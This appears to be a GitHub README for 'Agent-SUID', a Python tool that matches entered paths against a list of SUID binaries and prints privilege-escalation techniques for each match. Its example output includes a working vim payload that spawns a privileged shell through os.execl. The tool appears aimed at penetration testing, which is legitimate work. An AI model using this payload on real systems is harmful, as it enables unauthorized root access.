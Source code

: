 # Agent-SUID v1.0

Agent-SUID is a Python script developed by **CyberGhoul** to assist security professionals in identifying potential privilege escalation vectors by discovering SUID binaries on a system. This tool allows users to input paths and checks for matches against a predefined wordlist of SUID binaries.

## Features
- **User Input:** Enter file paths one per line to check for SUID binaries.
- **Wordlist Matching:** Matches the base name of the input paths against a predefined wordlist.
- **Privilege Escalation Techniques:** Displays detailed information on potential privilege escalation techniques for matched binaries.
- **Installation & Uninstallation:** Easily install or uninstall the script to `/usr/local/bin` with superuser permissions.

## Installation

To install the script on your system:

```
sudo python3 agent-suid.py --install
```
This will copy the script to `/usr/local/bin`, making it accessible from anywhere in your terminal.

## Usage

To run the script, use the following command:

```
python3 agent-suid.py
```
Once running, you can input paths to be checked. Press Enter on an empty line to finish inputting paths.

### Command-Line Options:

`--help`: Displays the help message.

`--install`: Installs the script to /usr/local/bin. (Requires sudo permissions)

`--uninstall`: Uninstalls the script from /usr/local/bin. (Requires sudo permissions)

## Example

```
agent-suid

Agent-SUID v1.0 by CyberGhoul -  the ultimate tool for discovering SUID binaries on your system. This tool is designed to help security professionals identify potential privilege escalation vectors.
        
Enter paths one per line (press Enter on an empty line to finish):

/bin/ping6
/bin/ping
/bin/mount
/bin/fusermount
/bin/umount
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/newgrp
/usr/bin/sudo
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/vmware-user-suid-wrapper
/usr/bin/passw
/bin/vim


SUID Binaries Overview: 1 found
Details on privilege escalation techniques:

-------------------------------------------------
vim:
        sudo install -m =xs $(which vim) .
        ./vim -c ':py import os; os.execl("/bin/sh", "sh", "-pc", "reset; exec sh -p")'
        
-------------------------------------------------
```
## Uninstallation
To uninstall the script from your system:
```
sudo agent-suid --uninstall
```

## Requirements

- Python 3.x
- Superuser permissions (for installation/uninstallation)

## License

This project is licensed under the MIT License - see the [LICENSE](https://github.com/cyb3rgh0u1/Agent-SUID/blob/main/LICENSE) file for details.
